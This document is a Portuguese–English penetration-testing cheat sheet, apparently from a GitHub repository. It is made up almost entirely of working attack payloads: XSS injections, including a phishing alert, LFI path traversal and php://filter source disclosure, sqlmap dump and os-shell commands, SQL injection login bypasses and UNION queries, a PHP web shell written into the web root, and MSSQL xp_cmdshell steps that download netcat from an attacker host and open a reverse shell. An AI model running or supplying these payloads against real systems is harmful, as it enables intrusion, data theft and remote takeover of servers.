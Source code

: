 ### XSS

Alert em campo de texto:

    </textarea><script>alert('XSS');</script>

Alert simples:

    <script>alert('XSS');</script>

Phishing no alert:

    </textarea><script>alert('Atenção! Sua senha está prestes a expirar, portanto é obrigatória a renovação de senha para evitar problemas com a sua conta. Acesse http://sitemalicioso.net e renove agora mesmo sua senha!');</script>

### Local File Inclusion (LFI)

```
http://example.com/page=../../../../../../etc/passwd
```



### Bypassing php-execution

So if you have an LFI you can easily read `.txt`-files but not `.php` files. That is because they get executed by the webserver, since their file-ending says that it contains code. This can be bypassed by using a build-in php-filter.

```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index
```

Here you use a php-filter to convert it all into base64. So in return you get the whole page base64 encoded. Now you only need to decode it. Save the base64-text into a file and then run:

```
base64 -d savefile.php
```

## SQL INJECTION

sqlmap crawl
```
sqlmap -u http://10.10.10.10 --crawl=1
```

sqlmap dump database
```
sqlmap -u http://10.10.10.10 --dbms=mysql --dump
```

sqlmap shell
```
sqlmap -u http://10.10.10.10 --dbms=mysql --os-shell
```

Upload php command injection file
```
union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

Load file
```
union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6
```

Bypasses
```
' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -
' or '1'='1'#
' or 1=1--
' or true#
' or ''=''#
' or id='1'#
' or true limit 1#
' or true limit 3,1#
' OR 1=1 -- //
0 order by 5
0 union select 1,2,3
0 union select 1,3,database()
0 union select 1,user(),database()
0 union select 1,version(),database()
0 union select 1,2,concat(user(),":",version(),":",database())
0 union select 1,2,schema_name from information_schema.schemata
0 union select 1,2,table_name from information_schema.columns
0 union select 1,table_schema,table_name from information_schema.columns
0 union select 1,table_name,column_name from information_schema.columns where table_schema="tarefa02"
0 union select 1,2,flag from flag
```

Execução de comando:

```
sudo mysql -uroot -p123456 -e '\! /bin/sh'
```
## Blind

- https://medium.com/@vikramroot/exploiting-time-based-sql-injections-data-exfiltration-791aa7f0ae87
- https://github.com/nvanheuverzwijn/curl-blind-sql-injection/blob/master/README.md
- https://medium.com/@tomnomnom/making-a-blind-sql-injection-a-little-less-blind-428dcb614ba8


mssqlclient.py

```shell
mssqlclient.py dominio/usuário@192.168.X.X -hashes ":ushduashduhuhu32423u4husdu23" -windows-auth
```

```shell
EXECUTE AS LOGIN = 'sa';
EXEC ('sp_configure "show advanced options", 1; reconfigure') 
EXEC ('sp_configure "xp_cmdshell", 1; reconfigure') 
EXEC ('xp_cmdshell "hostname&&whoami"') 
EXEC ('xp_cmdshell "powershell.exe -e encodedHere"') 

EXECUTE('EXEC AS LOGIN = "conta_alvo"; EXEC xp_cmdshell "hostname&&whoami";') AT [alvo02];

EXECUTE('EXEC AS LOGIN = "conta_alvo"; EXEC xp_cmdshell "cmd /c sc query spooler";') AT [alvo02];

EXECUTE('EXEC AS LOGIN = "conta_alvo"; EXEC xp_cmdshell "powershell wget http://192.168.X.X/nc64.exe -o c:\windows\tasks\nc.exe";') AT [alvo02];

EXECUTE('EXEC AS LOGIN = "conta_alvo"; EXEC xp_cmdshell "cmd /c c:\windows\tasks\nc.exe 192.168.X.X 443 -e cmd.exe";') AT [alvo02];
```